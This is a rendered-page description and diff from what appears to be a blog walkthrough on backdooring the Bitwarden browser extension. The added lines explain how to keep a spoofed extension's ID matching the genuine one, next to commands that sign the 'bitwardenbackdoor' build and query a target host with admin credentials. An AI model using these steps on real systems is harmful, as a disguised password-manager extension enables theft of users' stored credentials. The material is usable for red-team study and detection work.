

Before and after one commit to scamrepo/scamrepo.github.io, a Jekyll site: the page built from _posts/2026-07-27-bitwarden-extractor.md, in a window 1280 px wide and 900 px high, scrolled down 4242 px. Shown: the whole window, without its empty margins (272-1007 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
Update 2026-07-27-bitwarden-extractor.md

```diff
--- a/_posts/2026-07-27-bitwarden-extractor.md
+++ b/_posts/2026-07-27-bitwarden-extractor.md
@@ -158,6 +158,8 @@ mv main_formatted.js main.js
 
 
 # On the attacker machine, Sign the modified extension
+# To spoof an existing extension ID, skip this command.
+# Indeed, setting the manifest key to the base64 public key of the extension you are mimicking keeps the CRX ID unchanged.
 $ extloader sign --extension ./bitwardenbackdoor/<version>_0
 # Retrieve IDs for deployment
 $ extloader check -t 192.168.1.23 -u admin -p Password
```
